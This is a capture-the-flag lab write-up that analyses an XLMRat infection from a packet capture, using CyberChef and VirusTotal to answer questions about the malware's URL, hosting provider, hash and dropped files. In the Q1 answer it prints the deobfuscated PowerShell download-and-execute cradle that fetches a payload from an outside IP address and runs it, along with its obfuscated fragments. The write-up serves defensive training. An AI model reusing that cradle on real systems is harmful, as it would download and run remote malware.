








Today we doing a lab from [CyberDefenders]([url](https://cyberdefenders.org/blueteam-ctf-challenges/xlmrat/)) using **Wireshark, PowerShell, CyberChef, Open CTI, and Python3**.

**Q1**: The attacker successfully executed a command to download the first stage of the malware. What is the URL from which the first malware stage was installed?





After following the HTTP stream of the packet, we can see VBScript used to obfuscate PowerShell code. 

Copy the **LZeWX** from (0) to (87) and paste it in CyberChef and add the following: 

**Find / Replace**
In the Find field type: **LZeWX\(\d+\)\s*=\s**** and leave the **Replace** field empty.

The outcome will look like this: 
``` cmd
"[B"
"YT"
"e["
"]]"
";$"
"A1"
"23"
"='"
"Ie"
"X("
"Ne"
"W-"
"OB"
"Je"
"CT"
" N"
"eT"
".W"
"';"
"$B"
"45"
"6="
"'e"
"BC"
"LI"
"eN"
"T)"
".D"
"OW"
"NL"
"O'"
";["
"BY"
"Te"
"[]"
"];"
"$C"
"78"
"9="
"'V"
"AN"
"('"
"'h"
"tt"
"p:"
"//"
"45"
".1"
"26"
".2"
"09"
".4"
":2"
"22/m"
"dm"
".j"
"pg"
"''"
")'"
".R"
"eP"
"LA"
"Ce"
"('"
"VA"
"N'"
",'"
"AD"
"ST"
"RI"
"NG"
"')"
";["
"BY"
"Te"
"[]"
"];"
"Ie"
"X("
"$A"
"12"
"3+"
"$B"
"45"
"6+"
"$C"
"78"
"9)"
```

Add another **Find / Replace** and in the Find type: **.*?"(.*?)"** and in the **Replace** add **$1**. After that add another **Find / Replace** and in the **Find** add **\n** so we can read the code properly.

``` powershell
[BYTe[]];$A123='IeX(NeW-OBJeCT NeT.W';$B456='eBCLIeNT).DOWNLO';[BYTe[]];$C789='VAN(''http://45.126.209.4:222/mdm.jpg'')'.RePLACe('VAN','ADSTRING');[BYTe[]];IeX($A123+$B456+$C789)
```

And thats our first question answer: http://45[.]126[.]209[.]4:222/mdm[.]jpg (Defang to answer)

**Q2**: Which hosting provider owns the associated IP address?

Take the IP address from the URL and go to VirusTotal. 



And thats the second answer: ReliableSite.Net

**Q3**: By analyzing the malicious scripts, two payloads were identified: a loader and a secondary executable. What is the SHA256 of the malware executable?

Lets go to packet 12 and follow the HTTP stream. Scroll down to the first the hex code **$hexString_bbb**. Copy it and drop it in CyberChef.



Save it on your Desktop then open terminal, or PowerShell and get the **SHA256** hash using the command according to your CLI and thats the answer.

 

**Q4**: What is the malware family label based on Alibaba?

Use the hash we just found on VirusTotal and you will find the answer.

**Q5**: What is the timestamp of the malware's creation?

Same thing, check **Details** inside VirusTotal.

**Q6**: Which LOLBin is leveraged for stealthy process execution in this script? Provide the full path.

For this question, we will go back to packet 12 where there long hex codes were. Scroll all the way down till you can see the script of how the process is ran.



Lets take a look at those two variables. Take the first one and drop it in CyberChef with the **Find / Replace** operation. 



As you can see, the path isnt complete. Go ahead and copy the second variable and add it to this. 



We can see in the script the variable **$AC is + $NA.**, so we just add them together and thats the answer. 

**Q7:** The script is designed to drop several files. List the names of the files dropped by the script.

Go back to the script we were in and take a look at the 3 files with the same name but different file extensions, and thats the answer, top to bottom. 


